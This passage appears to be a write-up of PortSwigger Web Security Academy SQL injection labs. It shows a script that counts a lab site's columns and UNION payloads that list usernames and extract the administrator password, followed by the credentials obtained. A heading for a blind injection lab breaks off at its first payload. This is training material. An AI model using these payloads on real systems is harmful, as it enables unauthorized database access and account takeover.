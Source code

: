     ```
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0aee003b046eaaea838591f1008300b3.web-security-academy.net/ --param category --amount 4
    https://0aee003b046eaaea838591f1008300b3.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2 
    ```

2. Listing `usernames`:

    ```sql
    ' union select null, username from users-- -
    ```

3. Retrieving `password` for `administrator`:

    ```sql
    ' union select null, password from users where username='administrator'-- -
    ```

4. Logging in with credentials:
    - administrator
    - iyss16ett8k3ts7ugtut

# Lab: Blind SQL injection with conditional responses

1. **Vulnerable parameter:** `category=`

2. **Payload:**
```sql
' 
```